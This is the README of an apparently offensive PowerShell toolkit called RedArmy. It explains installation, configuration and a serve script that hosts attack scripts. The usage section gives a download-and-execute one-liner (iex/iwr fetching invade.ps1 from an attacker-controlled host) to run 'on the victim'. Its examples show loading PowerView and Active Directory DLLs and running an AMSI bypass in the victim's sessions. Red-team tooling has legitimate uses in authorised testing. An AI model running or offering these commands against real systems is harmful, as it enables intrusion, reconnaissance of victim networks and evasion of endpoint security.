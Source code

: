 # RedArmy

## Installation

```
$ git clone https://gitlab.com/mjwhitta/redarmy.git
$ cd ./redarmy
$ git submodule update --init --recursive
$ git submodule foreach ../../scripts/update_module # optional
```

## Configuration

RedArmy uses `config.default` by default. You can copy it to `config`
and delete or add lines as necessary.

Any filepaths starting with `./` will create `Invoke` functions rather
than `Get` functions. `Invoke` commands are generally for things that
aren't scope specific such as modifying system settings. See [the
default config](./config.default) for examples.

## Usage

```
$ ./serve [--port PORT] [--update] <ip>
```

Once the `serve` script is running, you can use the following to load
RedArmy on the victim:

- `iex (iwr -DisableKeepAlive -UseBasicParsing
  http://<ip>:<port>/invade.ps1)`

That command will also displayed for you to copy and paste for
convenience.

### Examples

- Load ps1 script into current session
    - `iex (Get-PowerView)`
- Load ps1 script into specified session in background
    - `Deploy-PowerView <session>`
- Load DLL object into current session
    - `Import-ADModuleDLL`
- Load DLL object into specified session in background
    - `Deploy-ADModuleDLL <session>`
- Run ps1 script in current session
    - `Invoke-AMSIBypass`
- Run ps1 script in current session in background
    - `Invoke-AMSIBypassInBg`
- Run ps1 script in specified session in background
    - `Deploy-AMSIBypass <session>`
